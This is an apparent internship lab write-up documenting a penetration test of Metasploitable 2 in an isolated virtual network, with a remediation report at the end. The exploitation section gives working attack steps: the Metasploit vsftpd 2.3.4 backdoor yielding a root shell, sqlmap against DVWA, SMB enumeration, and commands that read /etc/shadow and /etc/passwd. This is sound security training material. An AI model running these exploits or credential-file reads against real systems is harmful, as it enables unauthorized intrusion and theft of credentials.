

# Penetration Testing Simulation

## Task 4: Controlled Exploitation & Vulnerability Assessment

 
 
 


---

## 📖 Overview

This document provides a comprehensive walkthrough of a controlled penetration testing exercise conducted in an isolated virtual lab environment. The exercise simulates a real-world security assessment, covering the entire methodology from reconnaissance to exploitation and remediation.

**Objective:** To understand how vulnerabilities are discovered, assessed, and safely demonstrated in a controlled environment, following industry-standard penetration testing methodologies.

**Task ID:** `task4`

---

## 🗂️ Table of Contents

1. [Understanding Penetration Testing](#-understanding-penetration-testing)
2. [Lab Architecture & Setup](#-lab-architecture--setup)
   - [Target Selection](#target-selection)
   - [Network Configuration](#network-configuration)
3. [Penetration Testing Methodology](#-penetration-testing-methodology)
4. [Phase 1: Reconnaissance & Discovery](#-phase-1-reconnaissance--discovery)
   - [Host Discovery](#host-discovery)
   - [Port Scanning](#port-scanning)
   - [Service Version Detection](#service-version-detection)
5. [Phase 2: Vulnerability Assessment](#-phase-2-vulnerability-assessment)
   - [Automated Vulnerability Scanning](#automated-vulnerability-scanning)
   - [Manual Verification](#manual-verification)
   - [Searching for Exploits](#searching-for-exploits)
6. [Phase 3: Controlled Exploitation](#-phase-3-controlled-exploitation)
   - [Metasploit Framework Walkthrough](#metasploit-framework-walkthrough)
   - [Manual Exploitation](#manual-exploitation)
   - [Post-Exploitation](#post-exploitation)
7. [Phase 4: Reporting & Remediation](#-phase-4-reporting--remediation)
   - [Risk Assessment Matrix](#risk-assessment-matrix)
   - [Remediation Recommendations](#remediation-recommendations)
8. [Sample Penetration Test Report](#-sample-penetration-test-report)
9. [Ethical & Legal Boundaries](#-ethical--legal-boundaries)
10. [Evidence Checklist for Submission](#-evidence-checklist-for-submission)
11. [Troubleshooting Common Issues](#-troubleshooting-common-issues)
12. [Glossary](#-glossary)

---

## 🎯 Understanding Penetration Testing

A **penetration test (pentest)** is an authorized simulated cyberattack on a computer system, network, or web application to evaluate its security. The goal is to identify vulnerabilities that could be exploited by malicious actors.

### Types of Penetration Testing

| Type | Description | Scope |
| :--- | :--- | :--- |
| **Black Box** | The tester has no prior knowledge of the target. | Simulates an external attacker. |
| **White Box** | The tester has full knowledge (source code, architecture). | Comprehensive assessment. |
| **Gray Box** | The tester has partial knowledge (credentials, internal access). | Simulates an insider threat. |

### Penetration Testing vs. Vulnerability Scanning

| Aspect | Vulnerability Scanning | Penetration Testing |
| :--- | :--- | :--- |
| **Goal** | Identify potential vulnerabilities. | Exploit vulnerabilities to assess impact. |
| **Method** | Automated tools. | Manual + automated techniques. |
| **Depth** | Surface-level identification. | Deep analysis and exploitation. |
| **Output** | List of vulnerabilities. | Detailed report with proof of concept. |

---

## 🏗️ Lab Architecture & Setup

### Recommended Lab Configuration

```text
┌─────────────────────────────────────────────────────────────┐
│                      Host Computer                          │
│  (Windows/Linux/macOS - 16GB RAM, 4+ CPU cores)             │
│                                                             │
│  ┌───────────────────────────────────────────────────────┐  │
│  │               VirtualBox / VMware                     │  │
│  │  Host-Only Network: 192.168.56.0/24                   │  │
│  │                                                       │  │
│  │  ┌─────────────────┐    ┌─────────────────────────┐   │  │
│  │  │   Kali Linux    │    │  Vulnerable Target      │   │  │
│  │  │   (Attacker)    │    │  (Metasploitable 2)     │   │  │
│  │  │                 │    │                         │   │  │
│  │  │  IP: is .101    │◄──►│  IP: is.102             │   │  │
│  │  │  Tools: Nmap,   │    │  Services: FTP, SSH,    │   │  │
│  │  │  Metasploit,    │    │  HTTP, SMB, MySQL,      │   │  │
│  │  │  Nikto, Burp    │    │  Postgres, etc.         │   │  │
│  │  └─────────────────┘    └─────────────────────────┘   │  │
│  │                                                       │  │
│  └───────────────────────────────────────────────────────┘  │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### Target Selection

| Target | Description | Best For | Download |
| :--- | :--- | :--- | :--- |
| **Metasploitable 2** | Ubuntu 8.04 with intentionally vulnerable services. | Beginners learning exploitation. | [SourceForge](https://sourceforge.net/projects/metasploitable/) |
| **Metasploitable 3** | Windows Server 2008/Ubuntu with modern vulnerabilities. | Advanced testing, Windows exploitation. | [GitHub](https://github.com/rapid7/metasploitable3) |
| **OWASP Juice Shop** | Modern JavaScript web app with vulnerabilities. | Web application testing. | [GitHub](https://github.com/juice-shop/juice-shop) |
| **DVWA** | PHP/MySQL web app with configurable difficulty. | Web security fundamentals. | [GitHub](https://github.com/digininja/DVWA) |
| **VulnHub Machines** | Variety of CTF-style VMs. | Real-world scenario practice. | [vulnhub.com](https://www.vulnhub.com/) |

### Network Configuration

For complete isolation:

1. **Create a Host-Only Network** in VirtualBox:
   - File → Host Network Manager → Create.
   - Default: `192.168.56.1/24`.

2. **Assign both VMs** to the same Host-Only adapter.

3. **Ensure the target VM** has internet access disabled (if required).

4. **Test connectivity** from Kali:
   ```bash
   ping -c 4 192.168.56.102
   ```

---

## 📋 Penetration Testing Methodology

Industry-standard methodologies include **PTES** (Penetration Testing Execution Standard) and **OWASP Testing Guide**.



| Phase | Description | Tools |
| :--- | :--- | :--- |
| **Reconnaissance** | Gather information about the target. | Nmap, whois, dig, Google Dorks. |
| **Vulnerability Assessment** | Identify vulnerabilities in the target. | Nikto, OpenVAS, NSE scripts. |
| **Exploitation** | Attempt to exploit identified vulnerabilities. | Metasploit, SQLmap, custom scripts. |
| **Post-Exploitation** | Explore the compromised system and document impact. | Meterpreter, privilege escalation scripts. |
| **Reporting** | Document findings, risks, and remediation. | Word/Excel/Template. |

---

## 🔍 Phase 1: Reconnaissance & Discovery

### Host Discovery

Identify live hosts on your lab network:

```bash
# Ping sweep using Nmap
sudo nmap -sn 192.168.56.0/24

# Alternative using fping
fping -ag 192.168.56.0/24 2>/dev/null

# Using ARP scanning (more reliable in local networks)
sudo arp-scan --local
```

**Expected Output:**
```text
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-15 10:00 UTC
Nmap scan report for 192.168.56.101
Host is up (0.00031s latency).
Nmap scan report for 192.168.56.102
Host is up (0.00045s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.34 seconds
```

### Port Scanning

Once you have the target IP, perform a comprehensive port scan:

```bash
# Fast scan of top 1000 ports
sudo nmap -T4 -F 192.168.56.102

# Full port scan (all 65535 ports) - takes time
sudo nmap -p- 192.168.56.102

# SYN scan with service version detection
sudo nmap -sS -sV -O -p- 192.168.56.102
```

### Service Version Detection

Detailed enumeration with script scanning:

```bash
sudo nmap -sC -sV -A -p 21,22,80,443,445,3306,8080 192.168.56.102
```

**Example Output:**
```text
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
443/tcp  open  ssl/http    Apache httpd 2.2.8
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

---

## 🧪 Phase 2: Vulnerability Assessment

### Automated Vulnerability Scanning

**Nikto** – Web server vulnerability scanner:

```bash
nikto -h http://192.168.56.102
```

**Nmap NSE Vulnerability Scripts**:

```bash
# Run all default vulnerability scripts
sudo nmap --script vuln 192.168.56.102

# Run specific vulnerability scripts
sudo nmap --script smb-vuln-* 192.168.56.102

# HTTP vulnerability checks
sudo nmap --script http-* 192.168.56.102
```

**OpenVAS** (for comprehensive scanning - requires installation):

```bash
# Start OpenVAS (if installed)
gvm-start
# Open browser to https://127.0.0.1:9392
```

### Manual Verification

1. **Check for default credentials** on services:
   - FTP: `anonymous:anonymous`
   - SSH: `msfadmin:msfadmin` (Metasploitable)
   - MySQL: `root:` (blank password)

2. **Browse the web application**:
   - Open `http://192.168.56.102` in a browser.
   - Check `/phpinfo.php`, `/phpMyAdmin/`, `/webdav/`.

3. **Check for directory listing**:
   ```bash
   curl http://192.168.56.102/
   ```

### Searching for Exploits

Search for known exploits for discovered services:

```bash
# Search Exploit-DB
searchsploit vsftpd 2.3.4
searchsploit samba 3.0.20
searchsploit apache 2.2.8
```

**Example Output:**
```text
----------------------------------------------------------------------
 Exploit Title                        |  Path
----------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command       | linux/remote/49757.py
Samba 3.0.20 - 'username' map script  | linux/remote/16320.rb
Apache 2.2.8 - Mod_rewrite            | multiple/remote/3187.pl
----------------------------------------------------------------------
```

---

## 💥 Phase 3: Controlled Exploitation

### Metasploit Framework Walkthrough

#### 1. Start Metasploit

```bash
msfconsole
```

#### 2. Search for a Module

```text
msf6 > search vsftpd

Matching Modules
================
   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor        2011-07-03       great  Yes    VSFTPD v2.3.4 Backdoor Command Execution
```

#### 3. Use and Inspect the Module

```text
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > info
```

#### 4. Set Options

```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

#### 5. Execute Exploit

```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - BACKDOOR: Sending backdoor command
[*] Command shell session 1 opened (192.168.56.101:45281 -> 192.168.56.102:6200)
```

#### 6. Interact with the Session

```text
whoami
root

id
uid=0(root) gid=0(root)

# Check system info
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

### Manual Exploitation

**SQL Injection**:

```bash
# Check for SQL injection vulnerability
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=xyz123" --batch
```

**SMB Exploitation**:

```bash
# Connect to SMB share
smbclient //192.168.56.102/tmp -N

# Use enum4linux to enumerate users
enum4linux -a 192.168.56.102
```

### Post-Exploitation

Once you have a shell, you can gather additional information:

```bash
# Check current user privileges
whoami
id

# View network connections
netstat -antup

# Check running processes
ps aux

# List users
cat /etc/passwd

# View sensitive files
cat /etc/shadow

# Check for interesting files
find / -name "*.txt" -type f 2>/dev/null

# Create a proof file (do not actually do this in production)
echo "PWNED $(date)" > /tmp/penetration_test_proof.txt
```

---

## 📊 Phase 4: Reporting & Remediation

### Risk Assessment Matrix

| Severity | Description | Example |
| :--- | :--- | :--- |
| **Critical** | Immediate threat. Can lead to system takeover or data breach. | Remote code execution, privilege escalation. |
| **High** | Significant risk. Exploitable with moderate effort. | SQL injection, unpatched critical CVEs. |
| **Medium** | Limited impact. Requires specific conditions. | Information disclosure, weak passwords. |
| **Low** | Minimal risk. Hard to exploit. | Missing security headers. |

### Remediation Recommendations

| Vulnerability | Risk | Recommendation |
| :--- | :--- | :--- |
| **vsftpd 2.3.4 Backdoor** | Critical | Upgrade to a patched version (2.3.5+). |
| **OpenSSH 4.7p1** | High | Update to the latest OpenSSH version (9.x). |
| **Apache 2.2.8** | High | Upgrade to Apache 2.4.x (latest stable). |
| **MySQL 5.0.51** | Medium | Upgrade to MySQL 8.x or MariaDB latest. |
| **Default credentials** | Critical | Change all default passwords immediately. |
| **Missing WAF/IDS** | Low | Deploy Web Application Firewall. |
| **Unencrypted services** | Medium | Enforce TLS/SSL for all communication. |

---

## 📑 Sample Penetration Test Report

### Title Page

```text
╔════════════════════════════════════════════════════════════╗
║                                                            ║
║            PENETRATION TEST REPORT                         ║
║                                                            ║
║            Task 4: Virtual Lab Simulation                  ║
║                                                            ║
║            Target: Metasploitable 2                        ║
║            Date: January 15, 2026                          ║
║            Tester: TJR Krishnama Naidu                     ║
║                                                            ║
╚════════════════════════════════════════════════════════════╝
```

### Executive Summary

> A penetration test was conducted against the Metasploitable 2 virtual machine in an isolated lab environment. The assessment identified multiple critical vulnerabilities, including the vsftpd backdoor, outdated SSH, default credentials, and SQL injection. All findings are documented with proof of concept and remediation recommendations.

### Detailed Findings Table

| # | Finding | Severity | Affected Service | CVE | Proof of Concept | Remediation |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | vsftpd 2.3.4 Backdoor | Critical | FTP (21) | CVE-2011-2523 | Remote root shell obtained using Metasploit. | Upgrade vsftpd to 2.3.5+ or disable FTP. |
| 2 | SSH Weak Configuration | High | SSH (22) | N/A | Remote access using default `msfadmin` credentials. | Enforce strong passwords and key-only authentication. |
| 3 | SMB Null Session | Medium | SMB (445) | CVE-2000-1200 | Anonymous user enumeration and share listing. | Disable null session access. |
| 4 | MySQL Blank Password | Medium | MySQL (3306) | N/A | `root` user has no password. | Set strong password. |
| 5 | SQL Injection (DVWA) | High | HTTP (80) | N/A | Database extraction using `sqlmap`. | Implement prepared statements. |
| 6 | Unpatched Apache | High | HTTP (80) | Multiple | Various known vulnerabilities. | Upgrade to Apache 2.4+. |


## ⚖️ Ethical & Legal Boundaries

> ⚠️ **CRITICAL WARNING:** Unauthorized hacking is a criminal offense under laws such as the Computer Fraud and Abuse Act (CFAA) in the US, the Computer Misuse Act in the UK, and similar laws globally.

**Never Perform These Actions:**
- Scanning systems you do not own.
- Attempting to gain unauthorized access to any system.
- Using exploits outside a controlled lab environment.
- Sharing sensitive data discovered during testing.

**Always Follow These Rules:**
- Get explicit written permission before testing.
- Stay within the agreed scope.
- Report findings responsibly.
- Treat all data with strict confidentiality.

---

## 📸 Evidence Checklist for Submission

For your internship portal, provide the following screenshots:

| # | Screenshot | Description |
| :--- | :--- | :--- |
| 1 | **Lab Overview** | VirtualBox/VMware with both Kali and target VM running. |
| 2 | **Connectivity Check** | `ping` from Kali to the target. |
| 3 | **Host Discovery** | `nmap -sn 192.168.56.0/24` output. |
| 4 | **Port Scanning** | `nmap -sV -p- <TARGET-IP>` results. |
| 5 | **Vulnerability Scan** | `nmap --script vuln <TARGET-IP>` output. |
| 6 | **Nikto Scan** | `nikto -h http://<TARGET-IP>` results. |
| 7 | **Exploit Search** | `searchsploit` results for the found service. |
| 8 | **Metasploit Execution** | `msfconsole` setup and exploitation in progress. |
| 9 | **Proof of Access** | Shell access (`whoami`, `id`, `uname -a`) from the target. |
| 10 | **Report Summary** | Final findings and remediation table. |

---

## 🐞 Troubleshooting Common Issues

| Issue | Likely Cause | Solution |
| :--- | :--- | :--- |
| **Target IP not found** | VMs on different networks. | Ensure both are on Host-Only or NAT Network. |
| **Nmap scan returns no ports** | Target not running or firewall blocking. | Start the target VM; try `-Pn` to skip host discovery. |
| **Metasploit exploit fails** | Target patched or version mismatch. | Check the exact version of the service. Try a different exploit. |
| **Meterpreter session dies** | Network instability or timeout. | Use `set ExitOnSession false`; try different payload. |
| **Permission denied** | Not running with root privileges. | Use `sudo` before commands. |
| **Nikto scan slow** | Default timing is conservative. | Add `-Tuning 9` to skip some checks, or `-timeout 10`. |
| **Cannot find exploit in searchsploit** | The exploit is newer than the local database. | Run `searchsploit -u` to update. |

---

## 📖 Glossary

| Term | Definition |
| :--- | :--- |
| **CVE** | Common Vulnerabilities and Exposures - a public list of known security threats. |
| **CVSS** | Common Vulnerability Scoring System - a standard for assessing vulnerability severity. |
| **Exploit** | A piece of code that takes advantage of a vulnerability. |
| **Payload** | The actual code executed on the target after exploitation. |
| **Meterpreter** | An advanced payload in Metasploit that provides an interactive shell. |
| **NSE** | Nmap Scripting Engine - enables advanced scanning with Lua scripts. |
| **NVD** | National Vulnerability Database - the US government's repository of vulnerability data. |
| **PTES** | Penetration Testing Execution Standard - a comprehensive methodology. |
| **Reverse Shell** | A connection from the target back to the attacker's machine. |
| **Privilege Escalation** | Gaining higher privileges than initially obtained. |

---

## ✅ Conclusion

I have successfully completed a comprehensive penetration testing simulation in an isolated virtual lab environment. 
This exercise covered the entire security assessment lifecycle:

1. **Reconnaissance** – identified live hosts and open services.
2. **Vulnerability Assessment** – discovered vulnerabilities using automated and manual techniques.
3. **Controlled Exploitation** – demonstrated the impact of vulnerabilities using Metasploit and manual methods.
4. **Reporting** – documented findings with risk assessment and remediation recommendations.

This hands-on experience has provided invaluable insight into the mindset and methodology of security professionals, reinforcing the importance of ethical hacking practices and the need for continuous security improvement.

